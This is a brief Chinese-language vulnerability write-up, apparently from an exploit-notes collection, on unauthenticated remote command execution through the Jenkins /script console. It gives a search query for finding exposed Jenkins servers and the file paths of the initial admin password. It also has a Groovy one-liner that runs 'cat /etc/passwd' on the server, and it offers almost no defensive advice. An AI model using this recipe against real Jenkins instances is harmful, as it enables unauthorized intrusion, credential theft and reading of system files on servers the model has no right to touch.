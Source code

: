 # Jenkins script 未授权远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

```
Jenkins
```

## 网络测绘

```
app="Jenkins"
```

## 漏洞复现

账号密码存在于：

```
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```
println "cat /etc/passwd".execute().text
```

![image-20220525163148014](images/202205251631073.png)
